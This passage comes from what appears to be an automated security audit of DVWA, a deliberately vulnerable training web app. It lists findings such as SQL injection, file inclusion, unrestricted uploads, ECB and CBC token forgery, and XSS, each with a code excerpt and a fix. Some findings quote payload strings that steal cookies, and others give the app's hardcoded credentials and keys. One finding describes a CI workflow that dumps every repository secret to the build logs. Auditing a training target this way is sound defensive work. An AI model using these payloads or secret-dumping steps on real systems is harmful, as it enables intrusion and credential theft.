  15 │ 				print "There was an error.";
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ● [M-029](#m-029) — Use parameterized query for blind lookup

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-023"></a><a id="f-023"></a>
#### F-023 · Blind SQL injection

**Severity:** 🟠 High - elevated to Critical by the always-critical rule for CWE-89  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/sqli_blind/source/medium.php:15`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-002](#w-002) - Database access relies on concatenated queries

**Issue:** An authenticated user posts an id containing SQL conditions that need no quotes. Escaping does not constrain the unquoted context, so the user can infer data.

**Evidence:** ✓ verified

```
  13 │ 			$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
  14 │ 			try {
→ 15 │ 				$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); // Removed 'or die' to suppress mysql errors
  16 │ 			} catch (Exception $e) {
  17 │ 				print "There was an error.";
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ● [M-030](#m-030) — Bind id as integer in prepared statement

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-024"></a><a id="f-024"></a>
#### F-024 · Unauthenticated database reset in setup page

**Severity:** 🟠 High - elevated to Critical: reaches a privileged operation on an unauthenticated endpoint  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `setup.php:6`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** Calls `dvwaPageStartup` without 'authenticated'; any client loads the page for a token and POSTs `create_db`, dropping and recreating the database and resetting all accounts and data.

**Evidence:** ✓ verified

```
  4 │ require_once DVWA_WEB_PAGE_TO_ROOT . 'dvwa/includes/dvwaPage.inc.php';
  5 │
→ 6 │ dvwaPageStartup( array( ) );
  7 │
  8 │ $page = dvwaPageNewGrab();
```

**Fix:** ● [M-031](#m-031) — Require authentication on every exposed endpoint

**Classification:** Unauthenticated Management Plane · STRIDE: Tampering · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · walkthrough [Walkthrough §3.8](#38-unauthenticated-database-reset-in-setup-page)

<a id="t-028"></a><a id="f-028"></a>
#### F-028 · Path traversal in source viewer discloses

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/view_source.php:63`

**Found by:** survey and verification ([TC-FILE-01](#tc-file-01))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-003](#w-003) - Input handling lacks enforced boundary validation

**Issue:** At `vulnerabilities/view_source.php:63`, the id and security parameters are not validated. The switch on id only sets a label and does not reject unknown values. One part says JS files can also be read this way.

**Evidence:** ✓ verified

```
  61 │ 	}
  62 │
→ 63 │ 	$source = @file_get_contents( DVWA_WEB_PAGE_TO_ROOT . "vulnerabilities/{$id}/source/{$security}.php" );
  64 │ 	$source = str_replace( array( '$html .=' ), array( 'echo' ), $source );
  65 │
```

**Fix:** Resolve and normalise every constructed path and reject anything that escapes the intended base directory → ◕ [M-034](#m-034) — Constrain file paths to a safe base directory

**Classification:** Insecure File Handling · STRIDE: Information Disclosure · [CWE-22](https://cwe.mitre.org/data/definitions/22.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/) · Verification items: [TC-FILE-01](#tc-file-01)

<a id="t-030"></a><a id="f-030"></a>
#### F-030 · Unsalted MD5 password hashing

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** Multiple locations (2)

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-008](#w-008) - Security-sensitive data uses weak cryptographic primitives

**Instances (2):** `login.php`: 27; `vulnerabilities/brute/source/low.php`: 9

**Issue:** An attacker who obtains the users table, for example through the SQL injection, cracks the unsalted `MD5` password hashes with rainbow tables almost instantly.

**Evidence:** ✓ verified - A non-iterating hash is used for password storage.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ◕ [M-036](#m-036) — Hash passwords with a strong, salted algorithm

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-032"></a><a id="f-032"></a>
#### F-032 · Unvalidated page parameter passed to PHP include

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/fi/index.php:36`

**Found by:** survey and verification ([TC-FILE-01](#tc-file-01))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Issue:** At the low security level, `low.php` assigns `$_GET['page']` to \$file, and `vulnerabilities/fi/index.php:36` passes it unchecked to `include()`. The only control is authentication through `dvwaPageStartup`.

If the attacker injects PHP into a log file the server can read and then includes that file, the code runs as the web server user.

**Evidence:** ✓ verified - `low.php` line 4 sets \$file = `$_GET['page']` with no check. `index.php` line 36 then calls `include($file)`. Only `impossible.php` applies an allowlist (lines 7-18).

```
  34 │ // if( count( $_GET ) )
  35 │ if( isset( $file ) )
→ 36 │ 	include( $file );
  37 │ else {
  38 │ 	header( 'Location:?page=include.php' );
```

**Fix:** ◕ [M-037](#m-037) — Restrict included files to a fixed allowlist

**Classification:** Code Execution via Unsafe Deserialization or Eval · STRIDE: Elevation of Privilege · [CWE-98](https://cwe.mitre.org/data/definitions/98.html) · [OWASP A08:2025](https://owasp.org/Top10/2025/A08_2025-Software_or_Data_Integrity_Failures/) · Verification items: [TC-FILE-01](#tc-file-01)

<a id="t-033"></a><a id="f-033"></a>
#### F-033 · File inclusion

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/fi/source/high.php:7`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** The high level accepts any value matching `fnmatch('file*')`. This includes stream-wrapper paths that begin with 'file', so arbitrary local files reach `include()`.

**Evidence:** ✓ verified

```
  5 │
  6 │ // Input validation
→ 7 │ if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
  8 │ 	// This isn't the page we want!
  9 │ 	echo "ERROR: File not found!";
```

**Fix:** ◕ [M-038](#m-038) — Allowlist exact include filenames

**Classification:** Insecure File Handling · STRIDE: Elevation of Privilege · [CWE-98](https://cwe.mitre.org/data/definitions/98.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-034"></a><a id="f-034"></a>
#### F-034 · File inclusion

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/fi/source/medium.php:8`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** The medium level strips traversal and URL-scheme substrings once, non-recursively. Nested sequences reconstitute the stripped tokens, so attacker-chosen paths reach `include()` in `fi/index.php`.

**Evidence:** ✓ verified

```
   6 │ // Input validation
   7 │ $file = str_replace( array( "http://", "https://" ), "", $file );
→  8 │ $file = str_replace( array( "../", "..\\" ), "", $file );
   9 │
  10 │ ?>
```

**Fix:** ◕ [M-038](#m-038) — Allowlist exact include filenames

**Classification:** Insecure File Handling · STRIDE: Elevation of Privilege · [CWE-98](https://cwe.mitre.org/data/definitions/98.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-035"></a><a id="f-035"></a>
#### F-035 · Unrestricted file upload stores any file under its client name

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/upload/source/low.php:9`

**Found by:** survey and verification ([TC-FILE-02](#tc-file-02))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Issue:** At `vulnerabilities/upload/source/low.php:9` the low security level moves an authenticated user's uploaded file into hackable/uploads/ under its original client-supplied name and extension. It checks no type, extension, content or size.

If PHP runs in the uploads directory, requesting that path makes the web server execute the attacker's code.

**Evidence:** ✓ verified

```
   7 │
   8 │ 	// Can we move the file to the upload folder?
→  9 │ 	if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
  10 │ 		// No
  11 │ 		$html .= '<pre>Your image was not uploaded.</pre>';
```

**Fix:** Validate uploaded file type, size, and storage path; never execute uploaded content → ◕ [M-039](#m-039) — Allowlist image types and randomize stored names

**Classification:** Insecure File Handling · STRIDE: Elevation of Privilege · [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/) · Verification items: [TC-FILE-02](#tc-file-02)

<a id="t-036"></a><a id="f-036"></a>
#### F-036 · Upload type check trusts client-supplied MIME type

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/upload/source/medium.php:14`

**Found by:** survey and verification ([TC-FILE-02](#tc-file-02))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Issue:** At `vulnerabilities/upload/source/medium.php:14` the medium security level checks only the client-reported `Content-Type` and a size limit below 100000 bytes, plus basename on the file name. An authenticated attacker intercepts the upload and sets the `Content-Type` of `shell.php` to image/jpeg.

If that directory runs PHP, the attacker requests the file to run it.

**Evidence:** ✓ verified

```
  12 │
  13 │ 	// Is it an image?
→ 14 │ 	if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
  15 │ 		( $uploaded_size < 100000 ) ) {
  16 │
```

**Fix:** Validate uploaded file type, size, and storage path; never execute uploaded content → ◕ [M-040](#m-040) — Validate extension and content server-side

**Classification:** Insecure File Handling · STRIDE: Elevation of Privilege · [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/) · Verification items: [TC-FILE-02](#tc-file-02)

<a id="t-037"></a><a id="f-037"></a>
#### F-037 · Unauthenticated ECB session token allows block splicing

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/cryptography/source/medium.php:32`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** An attacker splices AES-128-ECB blocks from captured tokens, taking Sweep's username, Soo's valid expiry and Sooty's admin level. The token decrypts to valid JSON and is accepted as admin, because nothing checks integrity.

**Evidence:** ✓ verified

```
  30 │ 				}
  31 │
→ 32 │ 				if ($user->user == "sweep" && $user->ex > time() && $user->level == "admin") {
  33 │ 					$success = "Welcome administrator Sweep";
  34 │ 				} else {
```

**Fix:** ◕ [M-041](#m-041) — Use authenticated encryption

**Classification:** Cryptographic Failures · STRIDE: Elevation of Privilege · [CWE-649](https://cwe.mitre.org/data/definitions/649.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-038"></a><a id="f-038"></a>
#### F-038 · CBC padding oracle on token check endpoint

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/cryptography/source/token_library_high.php:126`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** An attacker submits modified IV and ciphertext values to `check_token_high.php`. Status 526 (decryption failed) and the other statuses distinguish bad padding from valid padding, so the attacker can decrypt the token and forge userid:1 to become admin. The CBC token has no MAC.

**Evidence:** ✓ verified

```
  124 │ 			$ret = array (
  125 │ 							"status" => 526,
→ 126 │ 							"message" => "Unable to decrypt token",
  127 │ 							"extra" => $exp->getMessage()
  128 │ 						);
```

**Fix:** ◕ [M-042](#m-042) — Switch token to AEAD with uniform errors

**Classification:** Cryptographic Failures · STRIDE: Elevation of Privilege · [CWE-649](https://cwe.mitre.org/data/definitions/649.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-039"></a><a id="f-039"></a>
#### F-039 · Admin-only user endpoints gated

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/authbypass/change_user_details.php:11`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-004](#w-004) - Authorization is implemented route by route

**Issue:** A non-admin or unauthenticated client sets Cookie `security=low`. `change_user_details.php` and `get_user_data.php` then skip their admin checks, because `dvwaSecurityLevelGet` returns the cookie value, so the client can read and modify all users' names.

**Evidence:** ✓ verified

```
   9 │ */
  10 │
→ 11 │ if (dvwaSecurityLevelGet() == "impossible" && dvwaCurrentUser() != "admin") {
  12 │ 	print json_encode (array ("result" => "fail", "error" => "Access denied"));
  13 │ 	exit;
```

**Fix:** ◕ [M-043](#m-043) — Enforce server-side authorization on every endpoint

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-001"></a><a id="f-001"></a>
#### F-001 · Missing Anti-CSRF Token on State Changes

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** Multiple locations (3)

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-005](#w-005) - Cookie-authenticated changes lack request authenticity checks

**Instances (3):** `vulnerabilities/captcha/source/low.php`: 45; `vulnerabilities/csrf/source/low.php`: 3; `vulnerabilities/xss_s/index.php`: 16

**Issue:** A malicious page auto-submits a POST of `step=2` with a chosen password to the CAPTCHA page. If the browser sends the session cookie, the victim's password is changed. No CSRF token or current-password check is enforced, and `high.php` never calls `checkToken`.

**Evidence:** ✓ verified - A state-changing request can be triggered cross-origin without a synchroniser token.

**Fix:** Enforce a same-origin or signed CSRF token on every state-changing endpoint → ◕ [M-010](#m-010) — Require CSRF token and current password

**Classification:** Cross-Site Request Forgery (CSRF) · STRIDE: Tampering · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-011"></a><a id="f-011"></a>
#### F-011 · Stored XSS

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/authbypass/authbypass.js:45`

**Found by:** survey and verification ([TC-INPUT-04](#tc-input-04))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-006](#w-006) - Frontend rendering lacks enforced output encoding

**Issue:** An attacker stores a `first_name` or surname such as ">&lt;img `src=x` `onerror=alert`(`document.cookie`)&gt; through `change_user_details.php`. One part describes this attacker as unauthenticated, and the other describes the attacker only as a user.

When the admin opens the authbypass page, the script runs in the admin's session.

**Evidence:** ✓ verified

```javascript
  43 │ 			cell0.innerHTML = user['user_id'] + '<input type="hidden" id="user_id_' + user['user_id'] + '" name="user_id" value="' + user['user_id'] + '" />';
  44 │ 			var cell1 = row.insertCell(1);
→ 45 │ 			cell1.innerHTML = '<input type="text" id="first_name_' + user['user_id'] + '" name="first_name" value="' + user['first_name'] + '" />';
  46 │ 			var cell2 = row.insertCell(2);
  47 │ 			cell2.innerHTML = '<input type="text" id="surname_' + user['user_id'] + '" name="surname" value="' + user['surname'] + '" />';
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◕ [M-019](#m-019) — Render user fields via textContent and DOM APIs

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-04](#tc-input-04)

<a id="t-012"></a><a id="f-012"></a>
#### F-012 · Stored XSS

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/bac/index.php:71`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-006](#w-006) - Frontend rendering lacks enforced output encoding

**Issue:** An authenticated user requests the BAC page with action and `user_id` set and a header X-Forwarded-For: &lt;svg `onload=alert`(1)&gt;. The value is stored in `bac_log.ip_address`, and `bac/index.php` renders it unescaped for every user who views the access log.

**Evidence:** ✓ verified

```
  69 │         $html .= "<td>{$log['accessor_user']} (ID: {$log['user_id']})</td>";
  70 │         $html .= "<td>{$target_user}</td>";
→ 71 │         $html .= "<td>{$log['ip_address']}</td>";
  72 │         $html .= "<td>{$log['timestamp']}</td>";
  73 │         $html .= "</tr>";
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◕ [M-020](#m-020) — HTML-escape log fields when rendering access log

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

<a id="t-013"></a><a id="f-013"></a>
#### F-013 · DOM-based XSS from URL default parameter written

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/xss_d/index.php:53`

**Found by:** survey and verification ([TC-INPUT-04](#tc-input-04))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-006](#w-006) - Frontend rendering lacks enforced output encoding

**Issue:** At `vulnerabilities/xss_d/index.php:53`, an inline script takes the text after 'default=' from `location.href`, decodes it with `decodeURI`, and writes it unencoded with `document.write`. An attacker sends a logged-in victim a link to the `xss_d` page, such as ?default=`<script>`...&lt;`/script`&gt; or ?default=&lt;`/option`&gt;&lt;`/select`&gt;&lt;img `src=x` `onerror=alert`(`document.cookie`)&gt;.

The impossible level drops `decodeURI`.

**Evidence:** ✓ verified - Line 52 takes lang from `document.location.href`, and line 53 writes it decoded into HTML with `document.write`. `medium.php` blocks only '&lt;script'. `high.php` allowlists only the server-visible query, so a URL fragment bypasses it.

```
  51 │ 					if (document.location.href.indexOf("default=") >= 0) {
  52 │ 						var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
→ 53 │ 						document.write("<option value='" + lang + "'>" + $decodeURI(lang) + "</option>");
  54 │ 						document.write("<option value='' disabled='disabled'>----</option>");
  55 │ 					}
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ◕ [M-021](#m-021) — Encode output instead of bypassing the framework sanitizer (🟠 [F-013](#f-013))

**Classification:** Cross-Site Scripting (XSS) · STRIDE: Tampering · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-04](#tc-input-04)

<a id="t-025"></a><a id="f-025"></a>
#### F-025 · CSRF check bypass

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/csrf/source/medium.php:5`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-005](#w-005) - Cookie-authenticated changes lack request authenticity checks

**Issue:** The medium level accepts a request if `SERVER_NAME` appears anywhere in the Referer. A Referer from an attacker-controlled origin whose hostname contains that string passes the check.

**Evidence:** ✓ verified - A state-changing request can be triggered cross-origin without a synchroniser token.

**Fix:** Enforce a same-origin or signed CSRF token on every state-changing endpoint → ◕ [M-032](#m-032) — Replace Referer substring check with anti-CSRF token

**Classification:** Cross-Site Request Forgery (CSRF) · STRIDE: Tampering · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-026"></a><a id="f-026"></a>
#### F-026 · All repository secrets dumped base64-encoded to workflow

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - CI/CD Pipeline  ·  **Location:** `.github/workflows/vulnerable.yml:54`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-014](#w-014) - All repository secrets dumped base64-encoded to workflow logs

**Issue:** On every push to master the `get_secrets` job serialises all repository secrets via `toJSON(secrets)` into ALLMYSECRETS and echoes it through base64. GitHub log masking only matches the literal secret values, so the encoded blob is shown in clear.

Anyone able to read the Actions logs (any user if the repository is public) decodes it and obtains every secret, including `DVWA_SECRET_KEY` and the run's `GITHUB_TOKEN`.

**Evidence:** ✓ verified - Line 31 sets ALLMYSECRETS to `toJSON(secrets)`; lines 51 and 54 pipe `SUPER_SECRET` and ALLMYSECRETS through base64 into the log, defeating masking. Triggered on push to master (lines 3-6). Log readership depends on repository visibility, not shown in source.

```yaml
  52 │
  53 │           # Same for all the tokens.
→ 54 │           echo "$ALLMYSECRETS" | base64
```

**Fix:** Strip secrets and PII from every log sink and rotate any token that already leaked → ◕ [M-033](#m-033) — Remove secret dumping step from vulnerable workflow

**Classification:** Missing Audit Logging & Accountability · STRIDE: Information Disclosure · [CWE-532](https://cwe.mitre.org/data/definitions/532.html) · [OWASP A09:2025](https://owasp.org/Top10/2025/A09_2025-Security_Logging_and_Alerting_Failures/)

### 🟡 Medium (45)

<a id="t-040"></a><a id="f-040"></a>
#### F-040 · Hardcoded weak MariaDB root and application credentials

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - MariaDB Database  ·  **Location:** `compose.yml:31`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Secrets are committed to source instead of a managed store

**Issue:** An attacker who gets code execution or network access inside the dvwa Docker network can log in to MariaDB as root with the published password 'dvwa', or as the dvwa user with the committed password. They then get full read/write over every database, including the users table and its password hashes.

Anyone with these credentials can log in to the DB as root, with full control of DVWA data and the server configuration.

**Evidence:** ✓ verified - `compose.yml:31` sets `MYSQL_ROOT_PASSWORD`=dvwa and line 34 sets a literal 8-char `MYSQL_PASSWORD`, both committed in plaintext.

**Fix:** Move the credential out of source control into a secret store and rotate it → ◑ [M-044](#m-044) — Use Docker secrets with strong random DB passwords

**Classification:** Cryptographic Failures · STRIDE: Spoofing · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-043"></a><a id="f-043"></a>
#### F-043 · Hardcoded encryption key and static secret allow API token

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/api/src/Token.php:10`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Secrets are committed to source instead of a managed store

**Issue:** An attacker who knows the published source encrypts `{"secret":"12345","expires":9999999999}` with AES-128-GCM using the embedded key 'Paintbrush'. OrderController then accepts the forged bearer token as a valid access token.

**Evidence:** ✓ verified

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ◑ [M-047](#m-047) — Load token signing key from secret store

**Classification:** Cryptographic Failures · STRIDE: Spoofing · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-051"></a><a id="f-051"></a>
#### F-051 · Hardcoded client secret and user password in API login

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/api/src/LoginController.php:96`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Secrets are committed to source instead of a managed store

**Issue:** An attacker who reads the source uses client 1471.`dvwa.digi.ninja` with secret ABigLongSecret and user mrbennett with password becareful. The login endpoint then issues valid access and refresh tokens for the order API.

**Evidence:** ✓ verified

**Fix:** Move the credential out of source control into a secret store and rotate it → ◑ [M-055](#m-055) — Verify API credentials against hashed user store

**Classification:** Cryptographic Failures · STRIDE: Spoofing · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-052"></a><a id="f-052"></a>
#### F-052 · Static access token accepted from the URL query string

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/bac/source/medium.php:26`

**Found by:** verification ([TC-AUTHN-07](#tc-authn-07))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-007](#w-007) - Secrets are committed to source instead of a managed store

**Issue:** An unauthorized caller adds `token=user_token` to the profile request URL. The server compares it with a hardcoded constant and returns any user's profile. The denial message itself reveals the value, and the token also lands in URLs and logs.

**Evidence:** ✓ verified - if (`isset($_GET['token'])` && `$_GET['token']` == 'user_token') grants access. Line 46 tells the caller to use `token=user_token`.

**Fix:** Move the credential out of source control into a secret store and rotate it → ◑ [M-056](#m-056) — Replace the constant URL token with session authorization

**Classification:** Cryptographic Failures · STRIDE: Spoofing · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-AUTHN-07](#tc-authn-07)

<a id="t-003"></a><a id="f-003"></a>
#### F-003 · Raw Database Error Disclosure to Client

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** Multiple locations (5)

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Instances (5):** `login.php`: 40; `vulnerabilities/authbypass/change_user_details.php`: 48; `vulnerabilities/brute/source/low.php`: 13; `vulnerabilities/sqli/source/low.php`: 11; `vulnerabilities/xss_s/source/low.php`: 17

**Issue:** An attacker submits malformed input. When the query fails, `die()` prints `mysqli_error`, which exposes SQL syntax and schema details that help with injection.

**Evidence:** ✓ verified

**Fix:** Replace developer error pages with a generic message in production responses → ◑ [M-012](#m-012) — Return generic error messages to clients

**Classification:** Error Information Disclosure · STRIDE: Information Disclosure · [CWE-209](https://cwe.mitre.org/data/definitions/209.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

<a id="t-041"></a><a id="f-041"></a>
#### F-041 · Login lacks attempt throttling or lockout

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `login.php:41`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** An attacker repeatedly fetches the login token and POSTs password guesses to `login.php`; no counter, delay or lockout limits attempts, enabling online brute force against weak seeded passwords.

**Evidence:** ✓ verified

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ◑ [M-045](#m-045) — Add login rate limiting and lockout

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-042"></a><a id="f-042"></a>
#### F-042 · No login attempt limiting on brute-force form

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/brute/source/low.php:12`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** An attacker scripts unlimited username and password guesses against the GET login and recovers account passwords. The low level has no throttling, and the medium and high levels only add short sleeps.

**Evidence:** ✓ verified

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ◑ [M-046](#m-046) — Add per-account and per-IP login throttling

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-044"></a><a id="f-044"></a>
#### F-044 · Session fixation

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `dvwa/includes/dvwaPage.inc.php:103`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** Below impossible level, `dvwa_start_session` reuses the session id from the request cookie at login, so an attacker who plants a known session id in a victim browser hijacks the authenticated session.

**Evidence:** ✓ verified

**Fix:** ◑ [M-048](#m-048) — Rotate the session identifier on authentication

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-384](https://cwe.mitre.org/data/definitions/384.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-045"></a><a id="f-045"></a>
#### F-045 · Debug CAPTCHA backdoor left in production code

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/captcha/source/high.php:20`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** An attacker reads the DEV NOTE comment that `captcha/index.php` renders. The attacker then sends `g-recaptcha-response=hidd3n_valu3` with User-Agent: `reCAPTCHA`, which passes the CAPTCHA check and changes the password automatically.

**Evidence:** ✓ verified

**Fix:** ◑ [M-049](#m-049) — Remove hardcoded CAPTCHA bypass branch

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-489](https://cwe.mitre.org/data/definitions/489.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-046"></a><a id="f-046"></a>
#### F-046 · Login passwords submitted in GET query strings

**Severity:** 🟡 Medium  ·  **Component:** [C-03](#c-03) - DVWA Web Application  ·  **Location:** `vulnerabilities/brute/source/low.php:8`

**Found by:** verification ([TC-AUTHN-07](#tc-authn-07))

